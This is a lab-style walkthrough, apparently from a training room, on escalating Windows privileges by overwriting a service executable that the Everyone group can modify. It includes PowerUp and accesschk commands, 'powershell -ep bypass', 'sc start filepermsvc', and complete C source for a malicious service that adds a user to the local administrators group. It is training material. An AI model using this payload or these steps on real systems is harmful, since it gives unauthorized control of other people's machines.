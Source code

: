 # 📁 Executable Files

In the context of Windows Privilege Escalation, executable files play a crucial role. Specifically, the focus is often on unquoted service paths, which can lead to privilege escalation vulnerabilities.

An unquoted service path vulnerability occurs when the path to a service executable lacks quotes and contains spaces. For example, `C:\Program Files\SomeExecutable.exe`. If the service path is unquoted and the user has permissions to manipulate objects in the specified path, it may be exploited for privilege escalation

<figure><img src="../../../../../.gitbook/assets/image (408).png" alt=""><figcaption></figcaption></figure>

### Overview <a href="#lecture_heading" id="lecture_heading"></a>

So first go to your rdesktop window and go into the powerup file:

<figure><img src="../../../../../.gitbook/assets/image (409).png" alt=""><figcaption><p>Don't forget the "powershell -ep bypass" command</p></figcaption></figure>

Run a&#x20;

```
. .\PowerUp.ps1
#and a 
Invoke-AllChecks
```

Next we went and tried to run the command `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"` and it reveals a potential security risk related to unrestricted file permissions. Specifically, it highlights that the "Everyone" user group possesses "FILE\_ALL\_ACCESS" permissions on the `filepermservice.exe` executable.

1. **Accesschk64:** Accesschk is a Windows utility used for checking effective permissions on files, directories, registry keys, etc. The command `accesschk64.exe -wvu "C:\Program Files\File Permissions Service"` is checking the permissions of the specified file.
2. **-wvu Option:**
   * `-w`: Checks the effective permissions.
   * `-v`: Verbose mode, provides detailed output.
   * `-u`: Shows ownership information.

It was first seen in the powerUp output:

<figure><img src="../../../../../.gitbook/assets/image (410).png" alt=""><figcaption></figcaption></figure>

and then confirmed manually:

<figure><img src="../../../../../.gitbook/assets/image (411).png" alt=""><figcaption></figcaption></figure>

Observe the output for the `filepermservice.exe` file. If the "Everyone" group has "FILE\_ALL\_ACCESS" permissions, it indicates a potential security vulnerability.

### Escalation <a href="#lecture_heading" id="lecture_heading"></a>

download the x.exe file in the previous room on your windows machine again, but this time&#x20;

<figure><img src="../../../../../.gitbook/assets/image (423).png" alt=""><figcaption></figcaption></figure>

save it at this location and overwrite the already existing filepermservice file

for the moment, we don't have any unusual people in our administrators local group:

<figure><img src="../../../../../.gitbook/assets/image (424).png" alt=""><figcaption></figcaption></figure>

except if we do a&#x20;

```
sc start filepermsvc
```

<figure><img src="../../../../../.gitbook/assets/image (425).png" alt=""><figcaption></figcaption></figure>

that's more than an easy win

so basically with the powerup tool we found that we had an executable file called filepermsvc that was modifiable by anyone, so we modified it with a malicious C file that made us escalate to administrators local group

if needed, here is the malicious C file

```c
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 

```
